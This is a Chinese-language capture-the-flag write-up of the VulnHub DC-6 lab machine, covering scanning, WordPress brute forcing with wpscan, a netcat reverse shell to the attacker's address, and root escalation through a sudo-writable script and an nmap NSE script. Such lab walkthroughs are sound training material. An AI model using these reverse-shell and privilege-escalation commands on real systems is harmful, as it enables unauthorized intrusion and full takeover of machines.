```yaml
---
layout:     post   				    # 使用的布局（不需要改）
title:      DC-6 				# 标题 
subtitle:   打靶日记之DC-4靶机 #副标题
date:       2024-07-23 				# 时间
author:     OOTAKEMARU 						# 作者
header-img: img/post-bg-dc.png 	#这篇文章标题背景图片
catalog: true 						# 是否归档
tags:								#标签
    - 打靶日记
    - DC靶机系列
---
```


>## DC-6



### 实验环境

kali 攻击机：ip为*192.168.253.135*

DC-6 靶机 ：ip为*192.168.253.140*



### 靶机安装

①官网下载：https://download.vulnhub.com/dc/DC-6.zip；

②解压文件得到 DC-6.ova；

③用vm虚拟机打开该文件，并设置好存储路径；

④将DC-6靶机的网络适配器设置为NAT模式，同kali在同一网段。



### 渗透过程

#### 1、信息收集

##### ①主机扫描

```
arp-scan -l
```

![1.png](https://s2.loli.net/2024/07/23/aMs6biQBATE4lZz.png)

##### ②端口扫描

```
nmap -sV -p- 192.168.253.140

-sV 		扫描目标主机端口上运行的软件信息
-p-		扫描全部端口 0 ~ 65535
```

![2.png](https://s2.loli.net/2024/07/23/ZIgWhCE1s5NrmRv.png)

##### ③目录扫描

使用御剑扫描目标网站，需确保主机可以和192.168.253.140通信。

![3.png](https://s2.loli.net/2024/07/23/Hl2GzyOn6hb8kds.png)



#### 2、漏洞探测

##### 网页重定向

使用nmap工具对目标开放的端口进行详细的扫描，用-p参数指定扫描端口。

```
nmap -A -p 80 192.168.253.140

  -A：同时完成OS检测，版本检测，脚本扫描和traceroute
  -p：指定扫描端口
```

扫描发现未遵循重定向到http://wordy，即访问该url是无法成功访问的。需要在kali通过命令vim /etc/hosts打开本地hosts文件中绑定ip和域名的关系再尝试访问。

![4.png](https://s2.loli.net/2024/07/23/izsXhvjEna7ul8Y.png)

![5.png](https://s2.loli.net/2024/07/23/36fRMsKDVSh8vCn.png)

##### 页面信息探测

![6.png](https://s2.loli.net/2024/07/23/JVbhXaEfLwBicAv.png)



#### 3、漏洞利用

##### 1）暴力破解

###### ①用户名枚举

使用 *wpscan* 快速扫描出该网站的登录用户名，并将扫描出来的用户名制作成用户名字典。

![7.png](https://s2.loli.net/2024/07/23/2QGfKsa5BScYwUR.png)

![8.png](https://s2.loli.net/2024/07/23/Jfa9Yr3ZAiXQEte.png)

![9.png](https://s2.loli.net/2024/07/23/vX1dDEyRfk9eSVw.png)

###### ②制作密码字典

![10.png](https://s2.loli.net/2024/07/23/vcxrQauzM98lDTK.png)

根据提示，使用 kali 自带的巨大字典 rockyou.txt 来制作包含k01的密码字典作为爆破字典。

进入 /usr/share/wordlists/ 目录下，找到 rockyou.txt.gz 压缩包，解压出 rockyou.txt 文件，解压命令为：

```
gunzip rockyou.txt.gz
```

![11.png](https://s2.loli.net/2024/07/23/QgZCJ7aGMzcw9n8.png)

```
#利用rockyou.txt制作密码字典
cat /usr/share/wordlists/rockyou.txt | grep k01 > /root/Desktop/passwd.txt
```

![12.png](https://s2.loli.net/2024/07/23/M3J8qRrzdnofslm.png)

###### ③登录爆破

```
#利用准备好的账号字典和密码字典继续用wpscan进行网站的登录爆破
wpscan --url wordy -U user.txt -P passwd.txt
```

![13.png](https://s2.loli.net/2024/07/23/XBFesYwb3E2j9G8.png)

![14.png](https://s2.loli.net/2024/07/23/W392yZOBiKYsSTU.png)

![15.png](https://s2.loli.net/2024/07/23/IkyAOjnZ6CLS3No.png)

![16.png](https://s2.loli.net/2024/07/23/M7i3fwqjJUlAgzI.png)

##### 2）任意命令执行

![17.png](https://s2.loli.net/2024/07/23/y6f8SqT7jmKQvO4.png)

![18.png](https://s2.loli.net/2024/07/23/2p7LS6vbgocVlrY.png)

![19.png](https://s2.loli.net/2024/07/23/5CEyASjIG8wDHFb.png)

##### 3）反弹shell

id 命令可以执行，证明目标系统存在系统命令执行漏洞，尝试执行命令让目标linux系统反弹shell到本地kali。

```
本地kali监听反弹shell：nc -lvp 9999

目标系统反弹shell：nc -e /bin/bash 192.168.253.135 9999
```

![20.png](https://s2.loli.net/2024/07/23/w5pqGNsI7zKf42T.png)

![21.png](https://s2.loli.net/2024/07/23/DH1BgcWIwMCdaZl.png)

```
python -c 'import pty; pty.spawn("/bin/bash")'
```

![22.png](https://s2.loli.net/2024/07/23/3cy9l8aJfFepCHk.png)

##### 4）提权

![23.png](https://s2.loli.net/2024/07/23/8q5Tg3UE2FHvMxX.png)

###### ①sudo提权

```
sudo -l
```

发现了 jens 用户的无密码命令执行文件backup.sh，即以非 jens 用户的身份就能执行 jens 家目录下的文件。

![24.png](https://s2.loli.net/2024/07/23/vxAU5mkHaLtCJzB.png)

查看该文件内容：

![25.png](https://s2.loli.net/2024/07/23/MEN7mCDUP8KiVxv.png)

尝试在脚本中添加 "/bin/bash" ， 然后以 jens用户的身份执行该脚本来直接切换到 jens用户下。

```
改写脚本的命令：echo "/bin/bash" >> /home/jens/backups.sh

执行脚本的命令：sudo -u jens /home/jens/backups.sh
```

![26.png](https://s2.loli.net/2024/07/23/BtopaT5Vjd8hUFY.png)

![27.png](https://s2.loli.net/2024/07/23/FTXtmJDQfqvLCuH.png)

###### ②nmap提权

这里可以通过 nmap 运行一个 shell 来达到提权效果。将系统命令执行脚本写入到 shell.nse 文件中：

```
echo "os.execute('/bin/bash')">/tmp/shell.nse

【PS】
.nse文件是nmap脚本，os.execute('/bin/bash')就是nse语句，它可以实现让linux操作系统执行/bin/bash程序从而获取一个shell。
```

以 root 用户权限运行 nmap 命令，运行 shell.nse 脚本：

```
sudo nmap --script=/tmp/shell.nse
```

![28.png](https://s2.loli.net/2024/07/23/l8VQJca5zpL6gED.png)



#### 4、寻找flag

提权成功后，寻找 flag 文件，并使用 cat 命令查看获得最终flag。

![29.png](https://s2.loli.net/2024/07/23/bpR4dmVPzohWaIL.png)
